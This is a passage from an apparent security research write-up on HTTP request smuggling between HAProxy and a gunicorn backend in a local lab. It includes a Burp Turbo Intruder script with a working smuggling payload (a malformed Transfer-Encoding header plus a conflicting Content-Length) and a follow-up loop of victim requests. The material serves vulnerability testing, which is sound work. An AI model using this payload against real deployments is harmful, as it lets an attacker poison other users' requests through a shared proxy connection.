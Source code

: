 gunicorn is used to serve the application, and we need to specify a non default worker to enable keep-alive:

```bash
gunicorn --keep-alive 10 -k gevent --bind 0.0.0.0:6767 -w 4 backend:app
```

Now with HAProxy running the above config and our backend server running, we should be able to test it for smuggling. The best way to do this from my experience is using Burp Suite's Turbo Intruder extension with the following script:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint='http://127.0.0.1:1080',
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False,
                           maxRetriesPerRequest=0
                           )

    attack = '''POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 37
Connection: keep-alive
Transfer-Encoding:chunked

1
A
0

GET / HTTP/1.1
X-Foo: bar'''
    engine.queue(attack)
    engine.start()


def handleResponse(req, interesting):
    table.add(req)
    if req.code == 200:
        victim = '''GET / HTTP/1.1
Host: 127.0.0.1:1080
Connection: close

'''

        for i in range(10):
            req.engine.queue(victim)
```

Note the `concurrentConnections=1` and `requestsPerConnection=1` configuration in this script - this should avoid encountering false positives, where we are poisoning our client to HAProxy connection instead of HAProxy to backend. You may need to change the endpoint and Host headers to suit your environment.
